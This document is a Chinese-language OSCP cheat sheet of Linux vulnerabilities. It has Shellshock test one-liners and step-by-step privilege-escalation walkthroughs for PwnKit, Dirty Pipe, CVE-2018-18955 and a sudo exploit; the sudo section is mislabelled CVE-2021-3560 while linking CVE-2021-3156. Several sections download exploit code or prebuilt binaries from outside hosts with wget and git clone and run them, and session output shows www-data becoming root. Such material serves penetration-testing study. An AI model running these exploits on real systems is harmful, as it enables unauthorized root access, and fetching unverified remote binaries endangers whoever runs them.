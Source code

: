 ```yaml
---
layer: article
title: Common Linux Vulnerabilities
tags: oscp
---
```




## 破壳 CVE-2014-6271

```bash
env x='() { :;}; echo Vulnerable CVE-2014-6271 ' bash -c "echo test"
```

演示：<https://github.com/vulhub/vulhub/tree/3a513cc4d40b5bf9035a2774b82ab56c9676bda7/bash/CVE-2014-6271>

## 破壳变种  CVE-2014-7169

```bash
env X='() { (shellshocker.net)=>\' bash -c "echo date"; cat echo; rm ./echo
```

## 破壳变种  CVE-2014-7186

```bash
$ bash -c 'true <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF' || 
echo "CVE-2014-7186 vulnerable, redir_stack"
```

## 破壳变种  CVE-2014-7187

```bash
$ (for x in {1..200} ; do echo "for x$x in ; do :"; done; for x in {1..200} ; do echo done ; done) | bash ||
echo "CVE-2014-7187 vulnerable, word_lineno"
```

## 破壳变种  CVE-2014-6278

```bash
shellshocker='() { echo You are vulnerable; }' bash -c shellshocker
```

## 破壳变种  CVE-2014-6277

```bash
bash -c "f() { x() { _;}; x() { _;} <<a; }" 2>/dev/null || echo vulnerable
```

## 脏牛 CVE-2016-5195

**参考：[深度分析“大小脏牛”漏洞：CVE-2016-5195和CVE-2017-1000405](https://www.freebuf.com/articles/network/283313.html)**

## 大脏牛 CVE-2017-1000405

**参考：[深度分析“大小脏牛”漏洞：CVE-2016-5195和CVE-2017-1000405](https://www.freebuf.com/articles/network/283313.html)**

## CVE-2018-18955



```bash
wget https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/47166.zip
unzip 47166.zip
cd ldpreload
./exploit.ldpreload.sh

```

https://bugs.chromium.org/p/project-zero/issues/detail?id=1712

https://github.com/scheatkode/CVE-2018-18955

## CVE-2021-3560

### 帮助

<https://github.com/worawit/CVE-2021-3156>

### 实例

```bash
/tmp$ git clone https://github.com/worawit/CVE-2021-3156
/tmp$ cd CVE-2021-3156
/tmp/CVE-2021-3156$ python exploit_nss.py 
# whoami
root
```



## CVE-2021-4034

### 帮助

<https://github.com/berdav/CVE-2021-4034>

### 实例

```bash
/tmp$ git clone https://github.com/berdav/CVE-2021-4034
git clone https://github.com/berdav/CVE-2021-4034
Cloning into 'CVE-2021-4034'...
remote: Enumerating objects: 92, done.        
remote: Counting objects: 100% (36/36), done.        
remote: Compressing objects: 100% (17/17), done.        
remote: Total 92 (delta 24), reused 19 (delta 19), pack-reused 56        
Unpacking objects: 100% (92/92), done.
/tmp$ cd CVE-2021-4034
/tmp/CVE-2021-4034$ ls
ls
cve-2021-4034.c   dry-run  Makefile  README.md
cve-2021-4034.sh  LICENSE  pwnkit.c
/tmp/CVE-2021-4034$ pwd
pwd
/tmp/CVE-2021-4034
/tmp/CVE-2021-4034$ make
make
cc -Wall --shared -fPIC -o pwnkit.so pwnkit.c
cc -Wall    cve-2021-4034.c   -o cve-2021-4034
echo "module UTF-8// PWNKIT// pwnkit 1" > gconv-modules
mkdir -p GCONV_PATH=.
cp -f /bin/true GCONV_PATH=./pwnkit.so:.
/tmp/CVE-2021-4034$ whoami
whoami
www-data
/tmp/CVE-2021-4034$ ./cve-2021-4034
./cve-2021-4034
# whoami
whoami
root
```

如果没有编译环境

```bash
/tmp$ git clone https://github.com/berdav/CVE-2021-4034
/tmp$ cd CVE-2021-4034
/tmp/CVE-2021-4034$ 


wget https://pan.iihack.com/d/CVE/cve-2021-4034
wget https://pan.iihack.com/d/CVE/cve-2021-4034/pwnkit.so
echo "module UTF-8// PWNKIT// pwnkit 1" > gconv-modules
mkdir -p GCONV_PATH=.
cp -f /bin/true GCONV_PATH=./pwnkit.so:.
chmod +x cve-2021-4034
./cve-2021-4034


whoami

```



## 脏管 CVE-2022-0847

1. poc by [Arinerron](https://github.com/Arinerron)

<https://github.com/Arinerron/CVE-2022-0847-DirtyPipe-Exploit/blob/main/exploit.c>

执行后密码root修改为`aaron`

2. poc by [r1is](https://github.com/r1is)

<https://github.com/r1is/CVE-2022-0847/blob/main/Dirty-Pipe.sh>

执行后获得root shell

```bash
git clone https://github.com/r1is/CVE-2022-0847.git
cd CVE-2022-0847
chmod +x Dirty-Pipe.sh
bash Dirty-Pipe.sh
```

还有几个待补充

**参考：[CVE-2022-0847 Linux 脏管漏洞分析与利用](https://www.freebuf.com/vuls/331378.html)**
